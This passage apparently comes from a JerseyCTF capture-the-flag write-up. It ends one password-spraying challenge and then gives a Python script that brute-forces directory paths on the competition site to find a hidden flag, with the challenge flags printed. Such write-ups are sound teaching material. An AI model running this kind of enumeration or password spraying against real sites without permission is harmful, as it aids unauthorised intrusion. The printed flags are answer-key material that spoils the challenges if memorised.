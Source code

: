 ![hydra](src/hydra.jpg)

Upon successful login to the site, an alert pops up on our screen and we are granted the flag: `jctf{c0NGR@T2_y0U_p@22wORd_SPR@y3D!}`

--------------------------------------------------------------------------------

### buster - 250 pts <a name="buster"></a>

**Challenge Description:** Check out my new site, it has lots of cool pages! https://jerseyctf.xyz

**Hint:** What do HTTP response codes actually mean?

**Solution:** For this challenge, we unfortunately could not use a tool like DirBuster, as the server just returns random HTTP codes. Instead, we will need to script this one ourselves to crawl through the pages and return in the case any contain our flag.

I used the same wordlist as was available on my kali box in tools like ZAP and DirBuster, and wrote the following script to attempt the brute forcing:

```
import requests

dirs = list(open('directory-list-2.3-small.txt', 'r').read().split('\n'))

def isFlag(page):
    page = page.strip()
    r = requests.get('https://jerseyctf.xyz/{}'.format(page))
    if 'jctf' in r.text:
        print('*'*20)
        print("Flag has been found!")
        print("Page contents are the following:")
        print(r.text)
        print('*'*20)
        return True
    return False

for directory in dirs:
    if isFlag(directory):
        exit(0)
```

This returns the following, which gives us our flag: `jctf{1t5_jUst_4_nUmb3r_ag8h7z8021}`

![buster](src/buster.jpg)
